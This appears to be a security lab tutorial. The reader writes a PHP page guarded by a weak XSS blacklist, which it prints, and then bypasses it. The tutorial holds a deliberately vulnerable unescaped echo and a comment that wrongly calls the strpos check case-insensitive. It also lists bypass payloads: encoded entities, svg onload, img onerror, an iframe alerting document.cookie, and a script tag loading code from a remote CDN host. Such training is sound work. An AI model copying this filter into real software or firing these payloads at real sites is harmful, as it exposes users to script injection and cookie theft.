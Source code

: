 # Write A Web Application With Insecure XSS Filters
An insecure XSS filter occurs when an application fails to properly validate user input, allowing attackers to inject malicious code into web pages. Some developers use blacklists to block dangerous strings like `<script` or `onload=` but often miss edge cases, leaving the application vulnerable to XSS attacks.

## References
- [OWASP - XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) by OWASP
- [How-To - Disable Browser Security Features](https://www.postexplo.com/forum/security-in-general/terms/610-how-to-disable-browser-security-features) by Resheph on PosteXplo
- [XSS Filter Evasion and WAF Bypassing Tactics](https://n3t-hunt3r.gitbook.io/pentest-book) by n3t_hunt3r
- [Bypassing Signature-Based XSS Filters: Modifying HTML](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) by PortSwigger

## Tasks
- Write a simple web application containing multiple input fields that are vulnerable to cross-site scripting
- Apply insecure filtering mechanisms to these input fields, such as a blacklist that attempts to block commonly known dangerous XSS keywords
- Develop a blacklist containing at least 30 dangerous XSS keywords (e.g., `<script>`, `onload=`, `alert(`, etc.) that you plan to use to try and protect the input fields
- Use various XSS techniques, such as HTML encoding, JavaScript obfuscation, and bypassing blacklist filters, to inject malicious JavaScript code into the input fields
- Verify that the injected malicious JavaScript code is executed on the web application's frontend, demonstrating the bypass of the insecure XSS filters

## Practical Approach
1. Create a new PHP file named `vulnerable_xss.php` in the htdocs folder in XAMPP 
2. PHP for vulnerable web application:
   ```
   <?php
   // XSS Blacklist filters
   $blacklist = [
       "<script>", "</script>", "<img>", "<svg>", "onload=", "onerror=",
       "alert(", "prompt(", "confirm(", "javascript:", "document.cookie",
       "window.location", "eval(", "setTimeout(", "setInterval(",
       "innerHTML", "outerHTML", "src=", "href=", "<iframe>", "</iframe>",
       "expression(", "vbscript:", "style=", "onmouseover=", "onfocus=",
       "onblur=", "onclick=", "onkeypress=", "onkeyup=", "onkeydown="
   ];
   
   // Function to check for blacklisted words
   function is_blacklisted($input, $blacklist) {
       // Weak blacklisting: no decoding, no normalization
       foreach ($blacklist as $word) {
           // Case-insensitive match for raw strings
           if (strpos($input, $word) !== false) {
               return true;
           }
       }
       return false;
   }
   
   // Handle form submission
   if ($_SERVER['REQUEST_METHOD'] === 'POST') {
       $user_input = $_POST['user_input'];
       
       // Check if input contains any blacklisted words
       if (is_blacklisted($user_input, $blacklist)) {
           echo "Input rejected: contains blacklisted content.";
       } else {
           // Directly echo input into the page (vulnerable to XSS)
           echo $user_input;
       }
   }
   ?>
   
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Insecure XSS Filter</title>
   </head>
   <body>
       <h1>Vulnerable XSS Web App</h1>
       <form action="" method="POST">
           <label for="user_input">Enter some text:</label><br>
           <input type="text" id="user_input" name="user_input" size="100"><br><br>
           <input type="submit" value="Submit">
       </form>
   </body>
   </html>
   ```
3. Despite the blacklist, the following XSS techniques could bypass the filtering
   - HTML encoding: Some browsers might interpret encoded characters that resemble dangerous inputs. For instance:
     Using `&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;` instead of `<script>`
   - Event Handlers in Other Elements:
     Example: `<img src="x" onerror="alert('XSS')">` might bypass filters if `onerror=` is not blacklisted correctly
   - Obfuscation Techniques:
     Using techniques such as breaking keywords (e.g., `java + script:`) to bypass string-based filters
   To test that the blacklist rejects XSS attempts, try the following payloads
   ```
   <script>alert('XSS')</script>
   <img src="nonexistent.jpg" onerror="alert('XSS')">
   <a href="javascript:alert('XSS')">Click Me</a>
   ```
   ![image](https://github.com/user-attachments/assets/6e2116ed-e305-49ac-9557-4597a0eee77d)

4. To test the vulnerability, use the following payloads and ensure that the injected JavaScript successfully executes on the frontend (e.g., showing an alert box) and different bypass techniques successfully trigger the XSS
   - SVG element with onload event handler
     ```
     <svg ONLOAD="&#x61;&#x6c;&#x65;&#x72;&#x74;(1)">
     ```
     ![image](https://github.com/user-attachments/assets/4d0326ff-3b2d-455d-8f7e-649674a17fbe)

   - IMG onerror and JavaScript Alert Encode
     ```
      <img SRC=x ONERROR="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
     ```
     ![image](https://github.com/user-attachments/assets/addbf297-5b8a-46fb-ad76-1ff1e18890a7)

   - Basic XSS Test Without Filter Evasion
     ```
     <SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
     ```
     ![image](https://github.com/user-attachments/assets/cc3768ef-2b63-4be5-9c4b-f5f57daae5f5)

   - URL string evasion
     ```
     <A HREF="http://www.google.com./">XSS</A>
     ```
     ![image](https://github.com/user-attachments/assets/b4c7d151-c097-4746-b0b0-e2d91e55041a)

   - Trigger JavaScript execution using formaction
     ```
     <form><button formaction=JAVASCRIPT&colon;ALERT(1)>CLICKME
     ```
     ![image](https://github.com/user-attachments/assets/38dace16-5342-41c3-887d-03e5bbaf30f2)

   - Iframe event based mayhem
     ```
     <IFRAME SRC=# ONMOUSEOVER="ALERT(DOCUMENT.COOKIE)"></IFRAME>
     ```
     ![image](https://github.com/user-attachments/assets/57778a91-0fd0-4c16-a9ff-c2af05156e60) 

